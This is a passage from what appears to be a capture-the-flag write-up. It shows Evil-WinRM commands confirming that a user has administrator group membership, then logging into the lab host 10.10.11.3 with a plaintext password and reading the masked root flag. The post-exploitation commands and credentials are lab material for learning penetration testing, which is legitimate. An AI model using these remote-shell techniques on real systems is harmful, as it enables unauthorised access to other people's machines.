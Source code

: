 ```powershell
*Evil-WinRM* PS C:\Windows\Temp\privesc3> net user hhogan
<SNIP>
Local Group Memberships      *Administrators       *Remote Management Use
Global Group memberships     *Domain Users         *GPO Managers
The command completed successfully.
```

So you can now see root.txt in a new winrm session:

```powershell
❯ evil-winrm -i 10.10.11.3 -u hhogan -p 'H4ppyFtW183#'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\HHogan\Documents> cd \Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
b1****************************a5
```
